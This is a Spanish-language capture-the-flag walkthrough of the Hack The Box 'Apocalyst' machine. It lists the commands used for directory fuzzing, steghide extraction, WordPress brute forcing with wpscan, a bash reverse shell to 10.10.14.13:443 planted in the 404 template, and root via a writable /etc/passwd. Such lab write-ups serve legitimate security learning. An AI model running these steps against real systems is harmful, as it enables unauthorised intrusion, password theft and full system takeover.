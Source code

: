 ## Summary

- IP -> 10.10.10.46
- Ports -> TCP (22, 80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> Open SSH 7.2p2 Ubuntu 4ubuntu2.2
    - 80 -> WordPress 4.8


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
Webpage 
- **/etc/host** Colocar la ruta ahi, porque esta aplicando virtual hosting
- Ruta de Login en WP **http:// apocalyst.htb/wp-admin.php** Es la ruta del panel de autenticacion de WordPress
- Comando -> **curl -s -X GET http://apocalyst.htb/wp-json/wp/v2/users/** Miramos para ver si nos reporta un Json, en este caso no existe esa ruta en WP

Podemos buscar en searchsploit **ssh user enumeration** <7.7 un exploit en Python2
- Comando -> **python2 45939.py < VICTIM IP> < USER> 2/dev/null** Para confirmar si ese usuario existe en esa IP

- Comando -> **wfuzz -c -L --hc=404 --hh=157 -t 200 -w < RUTA DICCIONARIO> < http:// apocalyst.htb/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas, L=follow del redirect si el codigo es 301). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	Ruta del diccionario **/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 

Cuando una pagina web tiene mucho texto, podemos usar eso para hacer un diccionario con esas palabras y asi podria ser mas personlizado.
- Comando -> **cewl -w Diccionario.txt http://apocalyst.htb/** Creas un diccionario mas 'personalizado' con las palabras de una webpage y te regresa un archivo de texto
- Comando -> **wfuzz -c -L --hc=404 --hh=157 -t 200 -w < RUTA DICCIONARIO> < http:// apocalyst.htb/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con el diccionario que creamos de la webpage
	Ruta del diccionario **Diccionario.txt**

Encontramos una nueva ruta que contiene una imagen, pero esta imagen tiene mas caracteres. Por lo que podemos decir que en ella hay oculto un archivo de texto o algo. 

- Comando -> **exiftool <Image.jpg>** Con esa herramienta podemos ver los metadatos de una imagen 
- Comando -> **steghide info <Image.jpg>** Para ver si la imagen tiene contenido oculto
-  Comando -> **steghide extract -sf <Image.jpg>** Para ver si la imagen tiene contenido oculto (sf=sourcefile)

Noe extrae un diccionario llamado list.txt (rutas, passwd, etc...)

- Comando -> **wpscan --url http://apocalyst.htb/** Detecta vulnerabilidades, pluggins
- Comando -> **wpscan --url http://apocalyst.htb/ --enumerate u** Enumeras usuarios que puedan existir en un WordPress
- Comando -> **wpscan --url http://apocalyst.htb/ -U falaraki -P list.txt** Aplicas fuerza bruta, en donde colocas el usuario y en este caso el diccionario de las passwd

Probamos el usuario y passwd en el panel de login
Ruta de Login en WP **http:// apocalyst.htb/wp-admin.php** Es la ruta del panel de autenticacion de WordPress

## User

Dentro de un WP podemos editar ese template y colocar un comando. Appearance ->Editor -> 404 Template
<?p
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>
Colocamos ese comando de ReverShell en la webpage

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux
- Comando -> **curl -s -X GET http://apocalyst.htb/?p=404** Apuntas a una ruta 404 y haces la peticion

Una vez adentro hacemos tratamiento de la TTY
Buscamos la flag user.txt 


- Comando -> **uname -a** Enumeras la version del Kernel
- Comando -> **lsb_release -a** Nos proporciona informacion de que Linux es

- Comando -> **id** Identificador de los usuarios (UID), root=UID=0
- Comando -> **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
- Comando -> **find / -perm -4000 -user root -ls 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root, ademas de que nos reportara el usuario, grupo y permisos, pero no encontramos nada
- Comando -> **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities
	* Comando -> **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva
		**cap_setuid+ep** Esperando encontrar ese
- Comando -> **cat /etc/crontab** Tareas CRON, que son tareas que se ejecutan a intervalos regulares de tiempos en el sistema 

- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux
Miramos que esta corriendo MySQL y tienen el tipico archivo 
	**cat wp-config.php | less** Este archivo suele disponer de credenciales de acceso a la base de datos, y lo miramos en formato de pagina 

Ahi encontraremos el usuario root y su passwd pero de la base de datos de mysql
Nos conectamos a la base de datos de esta manera 
- Comando -> **mysql -u < user> -p** Nos conectamos y le proporcionamos la password encontrada en el archivo anterior
- **>show databases;** Muestra las bases de datos
- **>use *wp_myblog*;** Usamos una base de datos especifica, en este caso llamada mattermost
- **>show tables;** Mostramos el contenido de las tablas de la base de datos
- **>describe *wp_users*;** Miramos que columnas existen
- **>select *user_login,user_pass* from *wp_users*;** Seleccionamos los campos de una tabla especifica, pero encontramos la passwd que ya teniamos 


## Root
- Comando -> **find / -writable 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"** Buscamos archivo desde la raiz con capacidad de escritura y los errores los ocultamos, ademas de quitar (vE=quitas multiples palabras) vas,dev,run, etc... y al final encontraremos **/etc/passwd**
- Comando -> **find / -writable -ls 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"** Buscamos archivo desde la raiz con capacidad de escritura y los errores los ocultamos, ademas de quitar (vE=quitas multiples palabras) vas,dev,run, etc... y al final encontraremos **/etc/passwd**, con ls podemos ver el propietario y si el grupo otros pueden modificarlo (w=write)
		Si podemos entrar al **/etc/passwd** podemos ponerle al usuario root una passwd directamente hasheada de forma hardcodeada, para que al momento de hacer un **sudo su** compare directamente con lo que colocamos y no lo lea del **/etc/shadow**
	- Comando -> **openssl passwd** Creamos una passwd en formato DES(unix), y este lo colocaremos en la parte verde de root:**x**:0:0 y guardamos el archivo

Ahora hacemos sudo su 
Nos convertimos en root y miramos la flag root.txt